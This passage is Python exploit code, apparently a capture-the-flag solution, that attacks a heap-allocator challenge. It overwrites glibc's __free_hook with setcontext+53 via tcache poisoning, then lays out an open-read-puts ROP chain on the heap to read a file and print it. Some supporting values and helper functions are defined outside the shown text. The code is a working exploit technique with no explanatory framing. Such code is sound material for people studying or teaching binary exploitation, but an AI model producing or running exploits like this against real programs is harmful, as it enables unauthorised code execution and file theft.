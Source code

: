 ```python
add(0,0x68)


print('[+]libcbase: '+hex(libcbase))
setcontext=libc.sym['setcontext']+libcbase
print('[+]setcontext: '+hex(setcontext))
free_hook=libc.sym['__free_hook']+libcbase
print('[+]free_hook: '+hex(free_hook))
add(0,0x18)
delete(0)
edit(0,p64(free_hook))
add(0,0x18)
add(0,0x18)
edit(0,p64(setcontext+53))

pop_rdi_rbp=libcbase+0x221a3
pop_rdi=libcbase+0x2155f
pop_rsi=libcbase+0x23e6a
pop_rdx=libcbase+0x1b96
pop_rax=libcbase+0x439c8
syscall=libcbase+0x116758
o=libcbase+libc.sym['open']
r=libcbase+libc.sym['read']
w=libcbase+libc.sym['puts']

pd=b'a'*0x28
add(0,0x28)
edit(0,pd)


pd=p64(9)+b'a'*0x10+p64(12)+p64(13)+p64(14)+p64(15)
pd+=p64(heap+0x1140)+p64(2)+p64(0)+p64(0xaa)
add(0,0x58)
edit(0,pd)


pd=b'a'*8+p64(0xaa)+p64(heap+0x1e30+0x20)+p64(pop_rax)
pd+=p64(2)+p64(syscall)+p64(pop_rdi)+p64(3)+p64(pop_rsi)
pd+=p64(heap)+p64(pop_rdx)+p64(0x100)+p64(r)+p64(pop_rdi_rbp)+p64(heap)
add(0,0x78)
edit(0,pd)

pd=p64(w)
add(0,0x48)
edit(0,pd)

add(0,0x68)
delete(0)

ia()
```
